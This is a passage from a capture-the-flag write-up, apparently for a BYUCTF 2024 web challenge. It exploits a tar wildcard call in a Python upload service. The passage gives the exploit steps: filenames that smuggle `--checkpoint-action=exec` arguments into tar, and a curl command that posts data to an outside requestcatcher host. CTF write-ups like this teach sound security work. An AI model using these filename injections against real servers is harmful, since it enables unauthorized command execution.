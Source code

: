 However, we can see that the `/api/download` functionality uses `os.system` to perform a wildcard `tar` operation :

```python
os.system(f"cd uploads/{g.uuid}/ && tar -cf out.tar *")
```

This takes every files within our upload folder and create a `.tar` archive. tar wildcards is a well-known vector for arbitrary command execution. In fact, it is possible to supply arguments as filename and to execute arbitrary OS commands using the checkpoint arguments :

```txt
      --checkpoint[=NUMBER]
              display progress messages every NUMBERth record (default 10)

       --checkpoint-action=ACTION
              execute ACTION on each checkpoint
```

Looks like we've just found our entry point! Let's see how we can exploit it.

## Exploit

We tried at first to upload a bash script and to see if we could execute it to have a callback.

1. upload a file named `--checkpoint=1`
2. upload a file named `--checkpoint-action=exec sh shell.sh`
3. upload the `shell.sh` script :

```bash
#!/bin/bash

curl -X POST -d 'Hello World!' https://happi.requestcatcher.com/test
```

We upload the various files and and then... TADA!
![image](/assets/img/byuctf24/no-req.png)

Shit, we didn't get any callback, what the hell happened. Had to get back to source code to see what happened.

The challenge creator played a trick on us: the files are actually uploaded without their content as he used `file = request.files.get('file', None)` instead of `file = request.files[file]`. Our `shell.sh` script is therefore empty !

What's left then ? To deal with this, we tried to use bash commands directly in the filename. We try to upload a file with name `--checksec-action=exec=sh curl -X POST -d 'Hello World!' https://happi.requestcatcher.com/test` directly and see if we can get a callback now.
